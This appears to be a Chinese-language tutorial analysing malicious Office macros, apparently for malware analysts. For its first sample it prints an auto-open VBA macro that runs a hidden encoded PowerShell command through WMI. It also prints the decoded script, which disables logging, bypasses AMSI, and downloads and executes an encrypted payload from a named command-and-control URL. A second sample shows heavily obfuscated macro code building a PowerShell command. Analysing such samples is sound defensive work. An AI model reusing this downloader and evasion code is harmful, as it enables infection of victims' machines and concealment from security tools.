




[TOC]

本章我们将分析几个有趣的宏病毒，一窥宏病毒分析技巧。本章所有样本均存在恶意行为，请在虚拟机中运行。

## 样本1-powershell_downloader

首先使用oledump.py提取宏：



提取到的宏代码如下:

```VB
Attribute VB_Name = "Module1"
Sub Auto_Open()
    pG
End Sub

Sub AutoOpen()
    pG
End Sub

Sub Document_Open()
    pG
End Sub

Public Function pG() As Variant
    Dim n As String
    n = "powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVg"
    n = n + "BlAHIAUwBpAE8ATgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAUwBp"
    n = n + "AE8AbgAuAE0AQQBKAE8AUgAgAC0ARwBlACAAMwApAHsAJABHAF"
    n = n + "AARgA9AFsAcgBFAGYAXQAuAEEAcwBzAEUAbQBiAEwAWQAuAEcA"
    n = n + "RQBUAFQAWQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQ"
    n = n + "BnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBV"
    n = n + "AHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAGkAZQBgAEwAZAAiAC"
    n = n + "gAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkA"
    n = n + "UwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQ"
    n = n + "BiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBGACgAJABH"
    n = n + "AFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAGUAVABWAG"
    n = n + "EAbABVAGUAKAAkAG4AdQBsAGwAKQA7AEkAZgAoACQARwBQAEMA"
    n = n + "WwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZw"
    n = n + "BnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBw"
    n = n + "AHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAF"
    n = n + "sAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwA"
    n = n + "bwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQw"
    n = n + "BbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBn"
    n = n + "AGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAH"
    n = n + "AAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8A"
    n = n + "ZwBnAGkAbgBnACcAXQA9ADAAfQAkAHYAQQBMAD0AWwBDAG8ATA"
    n = n + "BMAGUAYwB0AEkATwBuAHMALgBHAGUAbgBlAFIAaQBDAC4ARABp"
    n = n + "AGMAVABpAE8AbgBBAHIAeQBbAFMAdABSAGkATgBHACwAUwB5AH"
    n = n + "MAdABlAE0ALgBPAGIAagBFAGMAVABdAF0AOgA6AE4AZQB3ACgA"
    n = n + "KQA7ACQAVgBhAGwALgBBAGQARAAoACcARQBuAGEAYgBsAGUAUw"
    n = n + "BjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBu"
    n = n + "AGcAJwAsADAAKQA7ACQAdgBBAGwALgBBAEQAZAAoACcARQBuAG"
    n = n + "EAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8A"
    n = n + "YwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJA"
    n = n + "BHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBD"
    n = n + "AEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAG"
    n = n + "MAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQA"
    n = n + "bwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQ"
    n = n + "BwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBd"
    n = n + "AD0AJAB2AGEAbAB9AEUATABTAGUAewBbAFMAQwBSAGkAcABUAE"
    n = n + "IATABPAGMAawBdAC4AIgBHAEUAdABGAEkARQBgAGwAZAAiACgA"
    n = n + "JwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbw"
    n = n + "BuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBl"
    n = n + "AFQAVgBhAGwAdQBlACgAJABuAFUATABsACwAKABOAEUAdwAtAE"
    n = n + "8AQgBqAGUAQwB0ACAAQwBPAGwAbABlAGMAVABJAE8ATgBTAC4A"
    n = n + "RwBFAE4ARQBSAGkAYwAuAEgAQQBTAEgAUwBlAHQAWwBTAFQAUg"
    n = n + "BpAE4AZwBdACkAKQB9AFsAUgBlAEYAXQAuAEEAcwBTAEUATQBC"
    n = n + "AGwAWQAuAEcARQBUAFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC"
    n = n + "4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQA"
    n = n + "aQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJA"
    n = n + "BfAH0AfAAlAHsAJABfAC4ARwBlAHQARgBpAGUAbABkACgAJwBh"
    n = n + "AG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG"
    n = n + "4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUA"
    n = n + "VABWAEEATABVAEUAKAAkAG4AVQBsAGwALAAkAFQAUgBVAEUAKQ"
    n = n + "B9ADsAfQA7AFsAUwBZAFMAdABlAE0ALgBOAEUAdAAuAFMARQBS"
    n = n + "AFYASQBDAGUAUABvAGkAbgBUAE0AQQBuAEEAZwBFAFIAXQA6AD"
    n = n + "oARQBYAFAARQBDAFQAMQAwADAAQwBvAE4AVABJAE4AVQBFAD0A"
    n = n + "MAA7ACQAVwBDAD0ATgBlAHcALQBPAEIAagBFAGMAVAAgAFMAWQ"
    n = n + "BTAFQARQBNAC4ATgBFAHQALgBXAGUAQgBDAEwAaQBFAG4AVAA7"
    n = n + "ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAG"
    n = n + "kAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYA"
    n = n + "NAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOg"
    n = n + "AxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAk"
    n = n + "AFcAYwAuAEgAZQBBAEQARQByAHMALgBBAGQAZAAoACcAVQBzAG"
    n = n + "UAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAFcAQwAuAFAA"
    n = n + "cgBvAFgAWQA9AFsAUwBZAFMAVABlAG0ALgBOAGUAdAAuAFcAZQ"
    n = n + "BCAFIAZQBxAFUARQBTAHQAXQA6ADoARABlAGYAYQBVAGwAdABX"
    n = n + "AGUAYgBQAFIAbwB4AHkAOwAkAFcAQwAuAFAAUgBvAHgAWQAuAE"
    n = n + "MAcgBFAEQARQBuAHQASQBBAEwAUwAgAD0AIABbAFMAeQBzAFQA"
    n = n + "ZQBNAC4ATgBlAHQALgBDAHIARQBEAEUATgB0AEkAYQBMAEMAQQ"
    n = n + "BjAEgARQBdADoAOgBEAEUARgBBAHUAbAB0AE4ARQBUAFcATwBS"
    n = n + "AGsAQwBSAGUARABlAG4AdABpAGEAbABzADsAJABTAGMAcgBpAH"
    n = n + "AAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgA"
    n = n + "eQA7ACQASwA9AFsAUwB5AFMAdABFAE0ALgBUAGUAeAB0AC4ARQ"
    n = n + "BuAGMAbwBkAGkAbgBHAF0AOgA6AEEAUwBDAEkASQAuAEcAZQB0"
    n = n + "AEIAWQB0AEUAUwAoACcAMQAwAGMAYQBjAGQAOAA1ADYAMwAzAD"
    n = n + "MAYQA2ADgAZABlAGIAYgA3AGEAZgBjADgAOQBhADUAOAAyADIA"
    n = n + "NgBlACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIARw"
    n = n + "BzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8"
    n = n + "ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAF"
    n = n + "sAJABfACUAJABLAC4AQwBvAFUAbgB0AF0AKQAlADIANQA2ADsA"
    n = n + "JABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASg"
    n = n + "BdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAo"
    n = n + "ACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAF"
    n = n + "MAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQA"
    n = n + "UwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQ"
    n = n + "A7ACQAXwAtAEIAWABvAHIAJABTAFsAKAAkAFMAWwAkAEkAXQAr"
    n = n + "ACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAH"
    n = n + "IAPQAnAGgAdAB0AHAAOgAvAC8AdABlAHgAdABzAHAAZQBpAGUA"
    n = n + "cgAuAGQAZQA6ADgAMAA4ADAAJwA7ACQAdAA9ACcALwBhAGQAbQ"
    n = n + "BpAG4ALwBnAGUAdAAuAHAAaABwACcAOwAkAFcAQwAuAEgAZQBh"
    n = n + "AGQARQBSAFMALgBBAGQARAAoACIAQwBvAG8AawBpAGUAIgAsAC"
    n = n + "IAcwBlAHMAcwBpAG8AbgA9ADgAawA0AEgAOQBtADQAMwBmAHUA"
    n = n + "RQBwAHkAUQBGADAAeABjAEcAbgBQAEgASABjADAATAA0AD0AIg"
    n = n + "ApADsAJABEAEEAVABhAD0AJABXAEMALgBEAG8AdwBOAGwAbwBh"
    n = n + "AEQARABBAFQAYQAoACQAUwBlAHIAKwAkAHQAKQA7ACQASQB2AD"
    n = n + "0AJABEAGEAVABBAFsAMAAuAC4AMwBdADsAJABEAGEAdABBAD0A"
    n = n + "JABkAGEAVABhAFsANAAuAC4AJABEAEEAdABhAC4ATABlAG4AZw"
    n = n + "BUAEgAXQA7AC0AagBvAEkATgBbAEMAaABBAHIAWwBdAF0AKAAm"
    n = n + "ACAAJABSACAAJABEAEEAVABBACAAKAAkAEkAVgArACQASwApAC"
    n = n + "kAfABJAEUAWAA="
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root\cimv2:Win32_Process")
    objProcess.Create n, Null, objConfig, intProcessID
End Function

Attribute VB_Name = "Sheet1"
Attribute VB_Base = "0{00020820-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
Attribute VB_Name = "ThisWorkbook"
Attribute VB_Base = "0{00020819-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
```

该文件中的宏可以分为两部分。前部分代码是拼接字符串n，能看到“powershell”的字符串，可以猜测这段宏会执行一段powershell，powershell的命令被Base64加密。后部分代码则是使用”winmgmts:\\.\root\cimv2:Win32_Process”对象创建HIDDEN_WINDOW的隐藏进程，执行前面的powershell。

首先将powershell命令进行base64解密，解密后的数据，简单整理后如下：

```powershell
IF($PSVerSiONTaBLe.PSVERSiOn.MAJOR -Ge 3){
	$GPF=[rEf].AssEmbLY.GETTYpe('System.Management.Automation.Utils')."GEtFie`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static');
	IF($GPF){
		$GPC=$GPF.GeTValUe($null);
		If($GPC['ScriptB'+'lockLogging']){
			$GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
			$GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
		}
		$vAL=[CoLLectIOns.GeneRiC.DicTiOnAry[StRiNG,SysteM.ObjEcT]]::New();
		$Val.AdD('EnableScriptB'+'lockLogging',0);
		$vAl.ADd('EnableScriptBlockInvocationLogging',0);
		$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$val
	}
	ELSe{
	[SCRipTBLOck]."GEtFIE`ld"('signatures','N'+'onPublic,Static').SeTValue($nULl,(NEw-OBjeCt COllecTIONS.GENERic.HASHSet[STRiNg]))
	}
	[ReF].AsSEMBlY.GETTyPE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GetField('amsiInitFailed','NonPublic,Static').SETVALUE($nUll,$TRUE)};
};
[SYSteM.NEt.SERVICePoinTMAnAgER]::EXPECT100CoNTINUE=0;
$WC=New-OBjEcT SYSTEM.NEt.WeBCLiEnT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$Wc.HeADErs.Add('User-Agent',$u);
$WC.ProXY=[SYSTem.Net.WeBReqUESt]::DefaUltWebPRoxy;
$WC.PRoxY.CrEDEntIALS = [SysTeM.Net.CrEDENtIaLCAcHE]::DEFAultNETWORkCReDentials;
$Script:Proxy = $wc.Proxy;
$K=[SyStEM.Text.EncodinG]::ASCII.GetBYtES('10cacd856333a68debb7afc89a58226e');
$R={$D,$K=$ArGs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.CoUnt])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-BXor$S[($S[$I]+$S[$H])%256]}};
$ser='http://textspeier.de:8080';
$t='/admin/get.php';
$WC.HeadERS.AdD("Cookie","session=8k4H9m43fuEpyQF0xcGnPHHc0L4=");
$DATa=$WC.DowNloaDDATa($Ser+$t);
$Iv=$DaTA[0..3];
$DatA=$daTa[4..$DAta.LengTH];-joIN[ChAr[]](& $R $DATA ($IV+$K))|IEX
```

分析这段powershell，其功能是从'http://textspeier.de:8080/admin/get.php’下载数据并执行。

至此，其宏功能分析完成。

## 样本2-严重混淆

首先使用oledump.py提取宏：

```VB
Attribute VB_Name = "DMSojZquJ"
Function KlsJVlijz()
KRwZOZiSb = jMiOqzLkc
TzurouRwtt = Mid("juDEAMQA2AGIANQA5LfDuHPHXHoVdEQfRC", 3, 15)
iKnPNTjHYUN = TzurouRwtt
TsfRjzdCc = wGUKHjjwm
SAIGYDAjD = Mid("Ur8BJGqnnB5Yulset %cDpiTrLVN%=wers&&set %SuZmiriSa%=JwsADfCTs&&set %KlsJVlijz%=po&&set %qfSAwAXEM%=MrqzTiJDT&&set %PqjuFnVOr%=hell&&set %SqYwAARBW%=VcQFWjpkv&&!%KlsJVlijz%!!ZVnlC9iQvRBa", 15, 159)
iBSRmkhEj = SAIGYDAjD
XtczUhZho = sGlQtlEVs
HdFRsCmu = Mid("zQDZhA3kAOQB7ADEAMQA2AGIAMQAwADUAYgAxADEAMQA6ADEAMQAwAFkANAA2AH4AMQAwADAMuwW3nHiNYrXXhKvuQhjarIPjtM", 8, 65)
JZJjMfIbBG = HdFRsCmu
PthzvLzhL = GZEufrNor
aJFENXB = Mid("2iwApzVhvrZAEkAMQAxADEAegA0ADYAbQAxADEAMAAmADEAMAA4AH4ANAA3AHsAMQAxADYAYgA2ADYAJgAxADAAMgB+ADQANwBZADMAOQB+ADQANgB6ADgAMwBiADEAMQAyAH4AMQAwADgAWQAxADAANQBZADEAMQA2A2kjDuduJutzG4DjSWdJO2f", 12, 153)
TjXFztBK = aJFENXB
zUYzrCIlv = qfMjGmrTF
bEHOc = Mid("LnMwj8vivvwTnBW06hAzADIASQAxADEAMABZADEAMAAxACEAMQAxADkAJgA0ADUAJgAxADEAMQB6ADkAHc", 19, 62)
AcOZjKGHd = bEHOc
EYzRCmWTI = kzbtDFuEB
KtWFTJiUI = Mid("flGAbQ8jdVC6Iw5wGU3kFwCpYhBY7ADkAOAA6ADEAMAA2AG0AMQAwADXlAW41AL0oV", 29, 27)
RkSMsXZmbbj = KtWFTJiUI
TSBfqKPHC = wXTSDLmIQ
iBobiw = Mid("QSw3OIaCMAwAHsAMQAxADAAOgAxADAAMQAmADEAMQA2AGIANAA2ACEAMQAwADAAOgAxADAAMQBiADQANwAmADEAMQA0AEkANAA3AH4ANAA0AHoAMQAwADQAbQAxADEANgBZADEAMQA2ACYAMQAxADIAfgA1ADgAewA0ADcAJgA0ADcAYgAxADAAPzfNmjW9Ai0vDzhN", 10, 174)
mvotcU = iBobiw
uiSlbYuXn = TwcHoBkXB
iaBTlajaUKt = Mid("znY7zKn7hBOVIFz6X%cDpiTrLVN%!!%PqjuFnVOr%! -e LgAgACgAKAB2AEEAUgBpAEEAYgBMAGUAIAAnACoAbQBEAFIAKgAnACkALgBuAGEAbQBFAFsAMwAsADEAMQAsADIAXQAtAEoATwBJAG4AJwAnACkAIAAoACgAJwAzADYAOgAxADEAKvzcsdT8J0IO4j3RzW", 18, 165)
XvLAfRK = iaBTlajaUKt
EZhmBvkXw = pStPHvpAV
wLTmWqsTK = Mid("FfAHsAMQAwADUAYgAxADEANQBZADEAMQA2AH4AMQAxADQAbQTLWzcjuipSiEo", 3, 46)
orwEYmMBR = wLTmWqsTK
jhqckTXvK = ZriRhfKhi
wdpalVvA = Mid("I6iEVXN1GLwpHCz8Ijwm06KbVIuAJgAxADAAMQBJADQANwAhADcAOAB7ADgAOQAhADEAMAA3AEkAOAAzAG0AMQAwADIAJgA0ADcAegA0ADQAJgAxADAANAB6ADEAMQA2AH4AMQAxADYAIQAxADEAMgB7ADUAOAB7A86V", 28, 134)
nGmuz = wdpalVvA
iHhXBDcFF = tDohRofBp
IWIok = Mid("RjADIAJgA0ADMAbQAzADIAYgNG9GurhlHcLP2Co6oWzLFSwmkhv4ldioX", 3, 22)
TBNjdzzzh = IWIok
KbpOPFkKj = NXkOFaMGs
AsoLI = Mid("fSiIEDACYAMwA2AG0AMQAxADQAbQA5ADcAegAxADEAMABiADEAMAAwACYAMQAxADEAegAxADAAOQAhADMAMgBJADYhjj3jjAuppqRGqKrh1T", 7, 82)
FRdXUFElRa = AsoLI
oLjmAfOds = VsZuljqAF
ISYEi = Mid("BVjP8jiqhGziNiDAAOQBiADQANwBJADgAMwBiADEAMAA3ACYANgA1ADoAOAA1AFkANAA3AFkANAA0ACYAMQAwADQAegAxADEANgBiADEAMQA2ACYAMQAxADIAewA1ADgAJgA0ADcAegA0ADcAOgAxADAAOQBtADkANwAmADEAMQA0ACEAMQA3ztDPGPG38AW1vo", 15, 166)
fizsQ = ISYEi
tUscmqXOh = UfwOUKvrp
mnbclQddw = Mid("iPPaU89tkLifQBor34HASQB+AHoAJwAgACkAIAB8ACAAJQB7ACgAIABbAEkAbgB0AF0AJABfAC0AYQBTACAAWwBDAEgAYQByAF0AKQdQsE", 20, 83)
cslql = mnbclQddw
JXbJzlNOS = GTmEXEUTm
GbEiUOiVXw = Mid("ziITYGiIamHpoZHgB+ADgAMwB7ADEAM1t26K9TjQqMzHzEYiu", 16, 16)
YhuVfBw = GbEiUOiVXw
AMYpPlzuw = tHXOwuqjd
nwTYnBKp = Mid("I3DEAMAAx6EkAh4h7va", 3, 7)
zwsMjwQJTv = nwTYnBKp
djUGOYYRv = vPHtuBYvi
WrfmRXK = Mid("Jmcs93jA5rYAMQBJADMAMgB6ADEAMQAwACYAMQAwADEAIQAxADEAOQAmADQANQAmADEAMQAxAH4AOQA4AFkAMQAwADYAYgAxADAAMQAhADkAOQBtADEAMQA2AHoAMwAyAEkAMQAxADQAegA5ADcAegAxADEAMAB6ADEAMAAwACYAMQAxADEAbQAxADAAOQnXaIM1vNmldkDIh7a0o14pDA1", 11, 180)
awBiLS = WrfmRXK
QTIqMFnTG = urVrNrbqk
fwizQHrrKMl = Mid("7ZNCDjkd16F3vJwZADEAMAAxAG0AMQAwADkAYgA0ADYASQA3ADgAWQAxADAAMQA6ADEAMQA2AGIANAA2AGIAOAA3AH4AMQAwADEASQA5ADgAbQA2ADcAYgAxADAAOABJADEAMAA1ADoAMQAwADEAIQAxADEAMAAhARCJQsQwQniZ8zwzvDiFtJcuY", 16, 146)
kzLPNEjwRpi = fwizQHrrKMl
StzAQwpCi = qzNWqCPaM
HYhqTVjz = Mid("NlUNOMQB7ADQANwAhADEAMQA4AHsAOAA3AG0AMQAwADMAOgA0ADcAbQA0ADQAJgAxADAANAAhADEAMQA2AG0AMQAxADYAewAxADEAMgBiADUAOAAhADQANwBiADQANwAmADkANwB6ADEAMAAwAFkAMQAwADkAegAxADAANQA6ADEAMQAwBwOoLDMXi", 6, 172)
OXrPUEbnvR = HYhqTVjz
UnXOTvRiZ = ZDBQRDQGC
aOmzViYRI = Mid("q4zoiVLRd4XVFkAFkAOQA5ACEAOQA3AHoAMQAxADYAfgA5ADkAfgAxADAANABiADEAMgAzACEAMQAxADkAfgAxADEAI71o4", 15, 76)
KIwkY = aOmzViYRI
jQCKAJbwT = tXBTbniGD
mTTdkG = Mid("09MYoVDXOQBiADEAMgAxAH4AOQA4AFkAMQAxADcAewAxADIAMQB+ADEAMAA1AG0AMQAxADAAegAxADAAMwBJADkANwB6ADEAMAAzAHoAMQAwADEAOgAxADEAMAA6ADEAMQA2ACYANAA2AG0AOQA5AFkAMQAxADEAbQAxAMzqwVf3OVmsh", 9, 157)
CPOtaunKXFw = mTTdkG
MDaCimYPz = cahKFjzjJ
jENmKtocosG = Mid("Om2EAOgA5ADkAbQAxADEANgBiADMAMgBiADQANQAhADYANwBJADEAMQAxACYAMQAwADkAbQA3ADkAOgA5ADgAfgAxADAANgBiADEAMAAxAFkAOQA5AEkAMQAxADYAbQAzADIAfgA4ADcAYgA4ADMAJgA5ADkAbQAxA2XiEjooSHSSnosszbWhUJuvY0pR", 4, 159)
IAFUul = jENmKtocosG
KKmNnWbYG = XGbNmLAEC
wwuaTvRloii = Mid("rizBpdohTDQANwBiADQANwAmADEAMAAxAFkAMQAwADAAYgAxADEAMQB7ADEAMQqMh4QsW0tSwB7NpOpYfO", 10, 53)
muHlMzvW = wwuaTvRloii
cihQlkKwW = mjSSTsdUv
NkhKkqUcZzS = Mid("3sTuj9MB568wAFkANgA4AHoAMQAxADEASQAxADEAOQAhADEAMQAwACEAMQAwADgAWQAxADEAMQA6ADkANwBiADEAMAAwAFkANwAwACYAMQAwADUAOgAxADAAOAAhADEAMAAxAEkANAAwAG0AMwA2ACEAMQAxADcAYgAxADEA9u95c", 13, 156)
wJLOSQhR = NkhKkqUcZzS
QzQDbKjBI = XPoWJBjXF
fYzIS = Mid("t8Qv5AEmsBzcKQuRLtPfWP2haoJiOWTEJKWZADUAYgAxADEAMABZADMAMgAmADMANgA6ADEAMQA3AH4AMQAxADQAfgAxADAAOAB7ADEAMQA1ACYANAAxAFkAMQAyADMAYgAxADEANgBJADEAMQA0AH4AMQAyADEAfgz0", 37, 126)
bbvLjLAvSJ = fYzIS
ctZCDozpo = oFnijRPjE
ZXRkXlUKciC = Mid("K3jBHqR0qD19138PwR5IMndSACWcuccASQAxADAAMwB+ADEAMAAxAHoAMQAxADAAfgAxADEANgAmADEAMQA1AEkAMQAwADUAOgAxADEAMABJADkANwBtADzEX", 31, 88)
LPwcEG = ZXRkXlUKciC
mYCWkjbmj = iPZQlvnBa
CaTTBtvHd = Mid("fNzJ623CmpME4BTWDGQSANQAzAHsANQAzAFkANQAxAUXUX", 21, 22)
fcjRIRH = CaTTBtvHd
WOvbEmVrw = VofWHZwuw
JozUMVXQNC = Mid("IUU0INAxAH4AMQAxADUASQAxADEANQA6ADMAMgAmADMANgAmADEAMQAyAGIAOQA3AHsAMQAxADYASQAxADAANAB+ADUAOQAhADkAOAB7ADEAMQA0AGIAMQAwADEAOgA5ADcAWQAxADAANwB7ADUAOQB+ADEAMgA13K5AY50SzPat2", 7, 154)
fhXwGUGo = JozUMVXQNC
CFJqaQFQZ = PYTsvirtV
dnCicIqnDi = Mid("0GrwGzcA1BiqDQ2HsANAAwAHsAMwA5AH4ANAA0AG0AMwA5AEkANAAxACEANQA5AG0AMwA2ACEAMQAxADAAjNwtq8wXSXLbhwY25YY", 16, 67)
HczVFWDHVzj = dnCicIqnDi
JKUQBsnGw = DMHzTrwkw
ckRwBHp = Mid("66II1QkGmQO0bkrwXG7UDHLdjDEAMAAmADkANwB6ADEAMAA5ADoAMQAwADEAegAzMiwv58sW2z8", 26, 39)
lbjqdjR = ckRwBHp
QjnfWnMGT = cctziOEnj
nRJpoij = Mid("JwuGuPV1D5MOLRcplDEAMQAwAGIANAA2AGIAMQAwADAAYgAxADAAFm3RsjWO", 18, 35)
SPEOqDL = nRJpoij
imEQCTSBE = SPEcvKlaM
zGITmmFi = Mid("nXkCVcOVDCIGIANQA0ACEANAAxAHsANQA5AFkAMwA2AG0AMQAxADIAOgA5ADcAewAxADEANgBJADEAMAA0AHoAMwAyAEkANgAxAG0AMwAyAHoAMwA2AFkAMQAwADEAWQAxADEAMAB6ADEAMQA4AFkANQA4AG0AMQAxADYAIQAxADAAMQAmrEv", 12, 167)
rBTCHaK = zGITmmFi
